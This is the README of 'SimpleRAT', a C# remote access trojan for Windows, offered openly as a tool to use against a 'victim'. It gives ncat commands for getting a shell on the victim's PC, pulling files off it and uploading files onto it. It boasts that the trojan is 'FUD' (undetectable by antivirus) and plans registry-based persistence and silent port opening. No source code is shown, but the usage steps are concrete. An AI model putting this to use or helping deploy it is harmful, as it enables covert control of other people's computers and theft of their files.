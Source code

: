 # SimpleRAT

Small RAT/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Developed for Windows.

# What RAT can
1. After connection on specified port (provided in JSON file, which can be changed as you wish), gives reverse shell.
2. Is able to download any files from victim's PC on specified port (provided in JSON file) and upload files on victim PC, no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
### How to download files:
1. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")

Example: ncat -v -l -p 8889 > helloworld2.exe

NOTE: I advice you to use "-v" for more verbose output

2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

3. Check if reverse shell is working (cd, dir)

5. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)

### How to upload files:
1. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

2. Check if reverse shell is working (cd, dir)

3. Put RAT in listenning state by executing - RAT upload file -p <path/to/file.exe> -s <size of file in bytes>

Example: RAT upload file -p C:\Users\someuser\checkme\ConsoleApp4.exe -s 4096

4. Send file through netcat on main port of your RAT

Example: ncat 192.168.88.230 8888 --send-only < ConsoleApp4.exe

Process:
![howto-upload](https://user-images.githubusercontent.com/53906830/109667659-a9304a80-7b70-11eb-879b-0230e0567f52.png)

Currently RAT is FUD as it is small and simple, without any specific features.

TODO/Plans: 

1. Merge JSON configuration into exe file, not to download anything additionally;
2. Create key in registry for self startup;
3. Open ports required for communications (for main connection, for file download, etc).
